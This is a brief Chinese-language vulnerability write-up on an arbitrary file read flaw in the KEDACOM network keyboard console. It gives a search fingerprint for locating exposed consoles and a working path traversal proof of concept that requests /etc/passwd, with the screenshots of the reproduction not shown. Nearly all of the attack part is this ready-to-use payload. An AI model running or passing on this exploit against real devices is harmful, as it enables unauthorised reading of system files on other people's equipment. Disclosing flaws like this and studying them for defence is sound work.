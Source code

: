 # 

# 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
KEDACOM 网络键盘控制台
```

## 网络测绘

```
"网络键盘控制台"
```

## 漏洞复现

登录页面

![image-20220525145610413](./images/202205251456491.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](./images/202205251456381.png)
